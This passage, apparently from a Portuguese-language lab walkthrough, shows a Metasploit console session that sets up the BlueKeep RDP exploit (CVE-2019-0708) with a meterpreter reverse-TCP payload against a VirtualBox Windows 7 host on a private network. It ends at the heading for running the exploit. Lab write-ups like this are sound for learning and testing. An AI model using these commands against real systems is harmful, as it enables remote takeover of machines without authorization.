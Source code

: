 ```
View the full module info with the info -d command.

[-] Invalid parameter "exploit/windows/rdp/cve_2019_0708_bluekeep_rce", use "show -h" for more information
```
```
msf6 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
```
Configurando o exploit
```
msf6 > set RHOSTS 192.168.1.37
RHOSTS => 192.168.1.37
```
Há, neste caso, a necessidade de configurar o target manualmente. Como a máquina alvo está sendo executada no VirtualBox:
```
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 2
target => 2
```
Verificando...
```
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show options

Module options (exploit/windows/rdp/cve_2019_0708_bluekeep_rce):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   RDP_CLIENT_IP    192.168.0.100    yes       The client IPv4 address to report during connect
   RDP_CLIENT_NAME  ethdev           no        The client computer name to report during connect
                                               , UNSET = random
   RDP_DOMAIN                        no        The client domain name to report during connect
   RDP_USER                          no        The username to report during connect, UNSET = ra
                                               ndom
   RHOSTS           192.168.1.37     yes       The target host(s), see https://docs.metasploit.c
                                               om/docs/using-metasploit/basics/using-metasploit.
                                               html
   RPORT            3389             yes       The target port (TCP)


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none
                                        )
   LHOST     192.168.1.10     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)
```
## Executando o exploit
